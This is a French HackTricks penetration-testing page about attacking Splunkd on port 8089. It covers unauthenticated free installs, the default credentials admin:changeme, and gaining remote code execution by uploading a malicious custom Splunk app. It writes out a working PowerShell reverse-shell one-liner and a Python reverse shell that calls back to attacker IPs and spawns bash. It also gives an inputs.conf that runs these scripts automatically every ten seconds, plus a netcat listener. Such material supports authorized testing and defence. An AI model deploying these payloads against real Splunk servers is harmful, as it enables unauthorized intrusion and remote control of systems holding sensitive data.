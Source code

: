 # 8089 - Test d'intrusion Splunkd

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## **Informations de base**

Splunk est un **outil d'analyse de journaux** qui joue un rôle crucial dans la **collecte, l'analyse et la visualisation des données**. Bien que son objectif initial n'ait pas été de servir d'outil **SIEM (Sécurité de l'Information et Gestion des Événements)**, il est devenu populaire dans le domaine de la **surveillance de la sécurité** et de l'**analyse commerciale**.

Les déploiements Splunk sont fréquemment utilisés pour stocker des **données sensibles** et peuvent servir de **source précieuse d'informations** pour les attaquants potentiels s'ils parviennent à compromettre le système. **Port par défaut :** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Le **serveur web Splunk fonctionne par défaut sur le port 8000**.
{% endhint %}

## Énumération

### Version gratuite

L'essai de Splunk Enterprise se convertit en **version gratuite après 60 jours**, qui **ne nécessite pas d'authentification**. Il n'est pas rare que les administrateurs système installent un essai de Splunk pour le tester, qui est **ensuite oublié**. Cela se convertira automatiquement en la version gratuite qui n'a pas de forme d'authentification, introduisant ainsi une faille de sécurité dans l'environnement. Certaines organisations peuvent opter pour la version gratuite en raison de contraintes budgétaires, sans comprendre pleinement les implications de l'absence de gestion des utilisateurs/rôles.

### Identifiants par défaut

Sur les anciennes versions de Splunk, les identifiants par défaut sont **`admin:changeme`**, qui sont affichés de manière pratique sur la page de connexion.\
Cependant, **la dernière version de Splunk** définit **les identifiants** **pendant le processus d'installation**. Si les identifiants par défaut ne fonctionnent pas, il vaut la peine de vérifier les mots de passe faibles courants tels que `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtenir des informations

Une fois connecté à Splunk, nous pouvons **parcourir les données**, exécuter des **rapports**, créer des **tableaux de bord**, **installer des applications** à partir de la bibliothèque Splunkbase, et installer des applications personnalisées.\
Vous pouvez également exécuter du code : Splunk a plusieurs façons de **exécuter du code**, telles que des applications Django côté serveur, des points de terminaison REST, des entrées scriptées et des scripts d'alerte. Une méthode courante pour obtenir une exécution de code à distance sur un serveur Splunk est l'utilisation d'une entrée scriptée.

De plus, comme Splunk peut être installé sur des hôtes Windows ou Linux, des entrées scriptées peuvent être créées pour exécuter des scripts Bash, PowerShell ou Batch.

### Shodan

* `Construction Splunk`

## RCE

### Créer une application personnalisée

Une application personnalisée peut exécuter des **scripts Python, Batch, Bash ou PowerShell**.\
Notez que **Splunk est livré avec Python installé**, donc même sur les systèmes **Windows**, vous pourrez exécuter du code python.

Vous pouvez utiliser [**ceci**](https://github.com/0xjpuff/reverse\_shell\_splunk) package Splunk pour nous aider. Le répertoire **`bin`** de ce dépôt contient des exemples pour [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) et [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Suivons cela étape par étape.

Pour ce faire, nous devons d'abord créer une application Splunk personnalisée en utilisant la structure de répertoire suivante:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Le répertoire **`bin`** contiendra tous les **scripts que nous avons l'intention d'exécuter** (dans ce cas, un shell inversé **PowerShell**), et le répertoire par défaut contiendra notre fichier `inputs.conf`. Notre shell inversé sera un **PowerShell en une ligne :**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Le fichier [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) indique à Splunk **quel script exécuter** et toutes autres conditions. Ici, nous activons l'application et demandons à Splunk d'exécuter le script toutes les 10 secondes. L'intervalle est toujours en secondes, et l'entrée (script) ne s'exécutera que si ce paramètre est présent.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Nous avons besoin du fichier `.bat`, qui s'exécutera lorsque l'application sera déployée et exécutera la commande PowerShell en une ligne.

La prochaine étape consiste à choisir `Installer l'application à partir du fichier` et à télécharger l'application.

<figure><img src="../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

Avant de télécharger l'application personnalisée malveillante, commençons par démarrer un écouteur en utilisant Netcat ou [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Sur la page `Télécharger l'application`, cliquez sur parcourir, choisissez le fichier tar que nous avons créé précédemment et cliquez sur `Télécharger`. Dès que nous téléchargeons l'application, un shell inversé est reçu et le statut de l'application passe automatiquement à `Activé`.

#### Linux

Si nous étions en train de travailler sur un hôte Linux, nous aurions besoin de modifier le script Python `rev.py` avant de créer le fichier tar et de télécharger l'application malveillante personnalisée. Le reste du processus serait le même, et nous obtiendrions une connexion de shell inversé sur notre écouteur Netcat pour commencer.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Élévation de privilèges

Sur la page suivante, vous pouvez trouver une explication sur la manière dont ce service peut être utilisé de manière abusive pour escalader les privilèges et obtenir de la persistance :

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Références

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
